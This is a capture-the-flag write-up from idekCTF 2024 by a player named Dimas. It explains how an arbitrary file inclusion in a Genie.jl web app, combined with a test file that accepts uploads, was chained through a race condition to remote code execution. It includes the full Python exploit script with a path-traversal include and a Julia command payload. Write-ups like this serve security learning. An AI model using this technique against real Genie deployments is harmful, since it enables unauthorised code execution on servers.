 ```yaml
---
id: 476adce3-c249-4a2d-ad88-ea823a5c99a1
title: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
created_time: 2024-08-19T00:24:00.000Z
last_edited_time: 2024-09-28T00:27:00.000Z
cover_image: ./imgs/images_CYPDSAFZ
icon_emoji: 🏎️
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/images_CYPDSAFZ

---
```


In idekCTF 2024, I played with the **P1G SEKAI** team and secured 1st place out of 1,068 teams! I solved a challenge named "Included me" and got the first blood on that challenge.

# Challenge Description

another minimalist, frontend-less, challenge because i'm bad at writing server-side challenges

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/709a0b78-7ae2-4171-930b-e98c753c8621/includeme.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466THQ6I5OA%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T094458Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDEaCXVzLXdlc3QtMiJGMEQCIFcWlg21ahNfoWZfW6mz4n1lWx5Xn%2FCYHFbYhdYOr4M%2FAiBeBuAnGCWLZ7SR3zhJjUgpmwRDjwWuhiCez%2FBi9qjmLiqIBAjq%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAAaDDYzNzQyMzE4MzgwNSIMVlnjUwTxEYeCVlLQKtwDmVsAQFZThoSTL1J4MxeiKdcNLocGWI8wX4zME717pgsEyFxBZrr2QHl2uB%2FpSYtanvAnTrksRj9z7TzSO27YN2zb2Qw%2BJ2W%2Fz%2BPkj%2FTQAKDWEm1JjooN9W94xK40o5D8iU7sGeJbMi1g8FHLDD3gLO96LF%2FTuxTQcGBszpb1pyHE3tBXaWqy3N%2B47%2FfaphTCvcXA35nu59P3jqN6PgHXmoaBon5c9OSzw%2F01eC6bu5URkERdNVVFY6M71rZfKS%2BxGvMYAImGFQGQvqlE4TOvVcjUpwdNeZlIcaeuEJAktCfLlDxPT4nAumchA5Ozswyf5ja3%2BWmeKSlxkRPkjBvyvIGFiky7p%2BFFAbTdWNZiyHMZTB%2FVfWSiHyrIwVM4AjwpBiXRLdmy3jrRnghRlMAqH6ZGNsJvi%2BB5F7XJTOKE%2B1HNCUPf9tkgwatF9gr%2B09PDVm5MVQBAFqJNSYOPpUV%2BsN3SeqX7O2VX6iWE4fhbBngBC5E%2B2O6gBG5tzeKQibckEjBwDmqB75pGJFqWO3fylrbEF4QV2SKV5PXoOPaEKaN%2Fr5tywKXFVXN%2BoR%2B4CW%2F1L239f347nu4ux2rALUfE1fTc3byqGd7GCmjh%2BFk2F6gaFFJ7vkCu8FE3SzswwfHAwQY6pgFM87fi6a7udzOmEP5IxlO66T8tMe2iU48IeUCWQ44zPdwTFLAbEC9Ql9DGyWh4YnlNQNYm2DWbZ8yioBgfsYu%2F0SJMGoG5Z7HwX4lk83gU4qipJddXmSmWJ6jR7iTcXwXsaTinnij1Yj7825dB2hnXty0kRMEQF88KooPj1%2BHu2Ls9gGm4SOdPf%2FtoxOZy79dOFZQbQNxE0ZTe%2F13VAaYMgKQNBono\&X-Amz-Signature=d2eaf103d98dd46d6119e606d120c6766258171fb45aff3cdf62d9f730c469b1\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# How to Solve

The goal of this challenge was to achieve Remote Code Execution (RCE) and capture the flag. The program was vulnerable to arbitrary file inclusion here:

```julia
using Genie, Genie.Requests, Pkg

Pkg.activate(".")

index() = include(params(:page, "example.jl"))

route("/", index)

up(1337, "0.0.0.0", async = false)
```

We could include arbitrary files into the application, altering its flow. I discovered that we could include a test case from this Genie.jl repository:

> [![image](./imgs/b322ed80-bc5a-11e9-807a-9b53749c40ef_ftYlQyUC) **Genie.jl/test/fileuploads/test.jl at 509886d61a75d74bcbd45db1f77230abd4cd11a8 · GenieFramework/Genie.jl**](https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14)\
> 🧞The highly productive Julia web framework. Contribute to GenieFramework/Genie.jl development by creating an account on GitHub.\
> <https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14>

This test case essentially exposes a file upload vulnerability, allowing us to upload arbitrary files into Genie. However, after including that file, the program’s flow would change, preventing us from doing it a second time… or would it? The solution is yes, we can include it again if we’re fast enough to include `app.jl` right after uploading the file. This requires a race condition. Here's my solution script:

```python
import httpx
import asyncio

URL = "http://localhost:1337"
# URL = "https://includeme-295e03fffda9795f.instancer.idek.team/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url, timeout=100)
    def page(self, page):
        return self.c.get("/", params={"page": page})
    def upload(self, fileupload):
        return self.c.post("/", files={"fileupload": ("x.jl", fileupload)})
class API(BaseAPI):
    ...

async def main():
    api = API()
    ress = []
    res1 = api.page("../home/ctf/.julia/packages/Genie/yQwwj/test/fileuploads/test.jl")
    ress.append(res1)
    for i in range(10):
        res2 = api.upload("""
read(`cat flag.txt`, String)
""")
        for j in range(10):
            res3 = api.page("app.jl")
            ress.append(res3)
        ress.extend([res1, res2])
    ress = await asyncio.gather(*ress)
    for res in ress:
        print(res.text)


if __name__ == "__main__":
    asyncio.run(main())

```

Next, visit <http://localhost:1337/?page=x.jl> to retrieve the flag.

![](./imgs/image_2FRbeU5K.png)
